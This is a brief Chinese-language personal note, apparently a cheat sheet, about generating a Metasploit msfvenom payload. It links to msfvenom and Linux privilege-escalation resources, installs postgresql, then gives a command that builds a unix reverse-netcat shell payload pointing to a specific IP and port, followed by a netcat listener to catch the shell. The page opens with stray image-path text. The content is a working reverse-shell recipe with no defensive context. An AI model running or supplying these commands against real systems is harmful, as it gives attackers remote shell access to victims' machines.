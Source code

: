 > msfvenom payload

> [github](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom)

> [linx 提权](http://www.freebuf.com/articles/system/176255.html)

ubuntu 安装
--

    apt install postgresql
    
    # 生成 payload
     msfvenom -p cmd/unix/reverse_netcat lhost=118.31.78.77 lport=8888 R     
    
    # 监听
     nc -lvp 8888
     